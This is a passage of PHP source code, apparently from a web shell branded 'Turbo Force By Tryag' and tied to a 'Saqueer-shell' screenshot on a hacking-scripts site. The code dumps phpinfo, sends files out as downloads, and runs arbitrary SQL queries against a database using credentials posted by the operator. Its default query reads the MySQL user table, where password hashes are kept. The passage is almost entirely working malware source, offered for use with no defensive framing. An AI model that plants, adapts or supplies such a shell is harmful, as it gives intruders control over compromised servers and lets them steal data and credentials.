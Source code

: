  {
 header('Content-Encoding: ' . $content_encoding); }
 header("Content-type: ".$mime_type); header("Content-disposition: attachment; filename=\"".$filename."\";"); echo $filedump; exit(); }
 }
 if(isset($_GET['phpinfo'])) 
 {
 echo @phpinfo(); echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die(); }
 if (!empty($_POST['cccc']) && $_POST['cccc']=="db_query") 
 {
 echo $head; $sql = new my_sql(); $sql-&gt;db = $_POST['db']; $sql-&gt;host = $_POST['db_server']; $sql-&gt;port = $_POST['db_port']; $sql-&gt;user = $_POST['mysql_l']; $sql-&gt;pass = $_POST['mysql_p']; $sql-&gt;base = $_POST['mysql_db']; $querys = @explode(';',$_POST['db_query']); echo '&lt;body bgcolor=#e4e0d8&gt;'; if(!$sql-&gt;connect()) echo "&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=red&gt;&lt;b&gt;".$sql-&gt;error."&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; else 
 {
 if(!empty($sql-&gt;base)&&!$sql-&gt;select_db()) echo "&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=red&gt;&lt;b&gt;".$sql-&gt;error."&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; else 
 {
 foreach($querys as $num=&gt;$query) 
 {
 if(strlen($query)&gt;5) 
 {
 echo "&lt;font face=Verdana size=-2 color=green&gt;&lt;b&gt;Query#".$num." : ".htmlspecialchars($query,ENT_QUOTES)."&lt;/b&gt;&lt;/font&gt;&lt;br&gt;"; switch($sql-&gt;query($query)) 
 {
 case '0': echo "&lt;table width=100%&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;Error : &lt;b&gt;".$sql-&gt;error."&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;"; break; case '1': if($sql-&gt;get_result()) 
 {
 echo "&lt;table width=100%&gt;"; foreach($sql-&gt;columns as $k=&gt;$v) $sql-&gt;columns[$k] = htmlspecialchars($v,ENT_QUOTES); $keys = @implode("&nbsp;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#800000&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&nbsp;", $sql-&gt;columns); echo "&lt;tr&gt;&lt;td bgcolor=#800000&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&nbsp;".$keys."&nbsp;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"; for($i=0;$i&lt;$sql-&gt;num_rows;$i++) 
 {
 foreach($sql-&gt;rows[$i] as $k=&gt;$v) $sql-&gt;rows[$i][$k] = htmlspecialchars($v,ENT_QUOTES); $values = @implode("&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&nbsp;",$sql-&gt;rows[$i]); echo '&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&nbsp;'.$values.'&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;'; }
 echo "&lt;/table&gt;"; }
 break; case '2': $ar = $sql-&gt;affected_rows()?($sql-&gt;affected_rows()):('0'); echo "&lt;table width=100%&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;affected rows : &lt;b&gt;".$ar."&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;"; break; }
 }
 }
 }
 }
 echo "&lt;br&gt;&lt;title&gt;Turbo Force By Tryag&lt;/title&gt;&lt;form name=form method=POST&gt;"; 
 echo in('hidden','db',0,$_POST['db']); echo in('hidden','db_server',0,$_POST['db_server']); echo in('hidden','db_port',0,$_POST['db_port']); echo in('hidden','mysql_l',0,$_POST['mysql_l']); echo in('hidden','mysql_p',0,$_POST['mysql_p']); echo in('hidden','mysql_db',0,$_POST['mysql_db']); echo in('hidden','cccc',0,'db_query'); 
 echo "&lt;div align=center&gt;"; echo "&lt;font face=Verdana size=-2&gt;&lt;b&gt;Base: &lt;/b&gt;&lt;input type=text name=mysql_db value=\"".$sql-&gt;base."\"&gt;&lt;/font&gt;&lt;br&gt;"; echo "&lt;textarea cols=65 rows=10 name=db_query&gt;".(!empty($_POST['db_query'])?($_POST['db_query']):("SHOW DATABASES;\nSELECT * FROM user;"))."&lt;/textarea&gt;&lt;br&gt;&lt;input type=submit name=submit value=\" Run SQL query \"&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;"; echo "&lt;/form&gt;"; echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die(); }


 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png